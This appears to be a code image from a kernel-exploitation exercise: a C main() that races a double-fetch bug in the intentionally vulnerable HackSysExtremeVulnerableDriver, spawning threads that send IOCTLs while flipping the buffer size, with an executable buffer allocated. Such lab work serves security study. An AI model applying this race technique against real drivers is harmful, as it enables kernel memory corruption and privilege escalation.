 ```c
int main(void) {

    HANDLE hHEVD = CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver",
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL);


    if (!hHEVD) ExitProcess(1);

    PVOID buffer = VirtualAlloc(NULL, BUFFER_SIZE, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!buffer) ExitProcess(1);

    memset(buffer, 'A', BUFFER_SIZE);

    IRP_ARGS pIRPArgs = {
        .hHEVD = hHEVD,
        .pDoubleFetch.Buffer = buffer,
        .pDoubleFetch.Size = 0,
    };

    HANDLE hThreadWork[NUM_THREADS] = { 0 };
    HANDLE hThreadRace[NUM_THREADS] = { 0 };
    
    for (u64 i = 0; i < NUM_THREADS; i++) {
        hThreadWork[i] = CreateThread(NULL, 0, DeviceIoControlThread, &pIRPArgs, 0, NULL);
        hThreadRace[i] = CreateThread(NULL, 0, SizeChaingingThread,   &pIRPArgs, 0, NULL);
    }

    Sleep(30000);

    for (u64 i = 0; i < NUM_THREADS; i++) {
        if (hThreadWork[i] != NULL) {
            TerminateThread(hThreadWork[i], 0);
            CloseHandle(hThreadWork[i]);
        }
        if (hThreadRace[i] != NULL) {
            TerminateThread(hThreadRace[i], 0);
            CloseHandle(hThreadRace[i]);
        }
    }

    return 0;
}
```
